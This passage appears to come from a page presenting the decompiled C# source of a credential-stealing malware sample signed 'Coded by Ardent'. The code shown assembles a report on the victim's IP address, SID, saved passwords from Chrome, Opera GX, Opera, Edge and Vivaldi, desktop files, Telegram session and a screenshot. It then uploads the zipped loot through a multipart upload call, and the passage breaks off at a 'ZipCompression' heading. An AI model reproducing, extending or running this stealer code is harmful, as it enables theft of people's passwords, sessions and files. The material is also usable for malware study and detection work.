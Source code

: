 ```csharp
				array3[2] = "\n\ud83d\udd3a IP: ";
				int num2 = 3;
				IPAddress ip = Variables.IP;
				array3[num2] = ((ip != null) ? ip.ToString() : null);
				array3[4] = "\n\ud83d\udd3a SID: ";
				array3[5] = Variables.SID;
				array3[6] = "\n\n\ud83d\udd3a All found passwords: ";
				array3[7] = Variables.allFoundPasswords.ToString();
				array3[8] = "\n\n\ud83d\udd3a    Found Chrome: ";
				array3[9] = Variables.isChromeFound;
				array3[10] = "\n\ud83d\udd3a        Found ChromePasswords: ";
				array3[11] = Variables.foundChromePasswords.ToString();
				array3[12] = "\n\n\ud83d\udd3a    Found OperaGX: ";
				array3[13] = Variables.isOperaGXFound;
				array3[14] = "\n\ud83d\udd3a        Found OperaGXPasswords: ";
				array3[15] = Variables.foundOperaGXPasswords.ToString();
				array3[16] = "\n\n\ud83d\udd3a    Found Opera: ";
				array3[17] = Variables.isOperaFound;
				array3[18] = "\n\ud83d\udd3a        Found OperaPasswords: ";
				array3[19] = Variables.foundOperaPasswords.ToString();
				array3[20] = "\n\n\ud83d\udd3a    Found Edge: ";
				array3[21] = Variables.isEdgeFound;
				array3[22] = "\n\ud83d\udd3a        Found EdgePasswords: ";
				array3[23] = Variables.foundEdgePasswords.ToString();
				array3[24] = "\n\n\ud83d\udd3a    Found Vivaldi: ";
				array3[25] = Variables.isVivaldiFound;
				array3[26] = "\n\ud83d\udd3a        Found VivaldiPasswords: ";
				array3[27] = Variables.foundVivaldiPasswords.ToString();
				array3[28] = "\n\n\ud83d\udd3a Additional information \n\ud83d\udd3a    Found files from desktop: ";
				array3[29] = Variables.foundFilesFromDesktop.ToString();
				array3[30] = "\n\ud83d\udd3a    Telegram session: ";
				array3[31] = Variables.telegramSessionFound;
				array3[32] = "\n\ud83d\udd3a    Is screenshot success: ";
				array3[33] = Variables.isScreenshotSuccess;
				array3[34] = "\n\ud83d\udd3a    Is zip compression success: ";
				array3[35] = Variables.isZipCompressionSuccess;
				array3[36] = "\n\n\ud83d\udcbb Coded by Ardent";
				array2[num] = string.Concat(array3);
				string text2 = string.Concat(array2);
				DataDispatch.UploadMultipart(array, text, "application/x-ms-dos-executable", text2);
			}
		}
	}
}

```

### **ZipCompression**
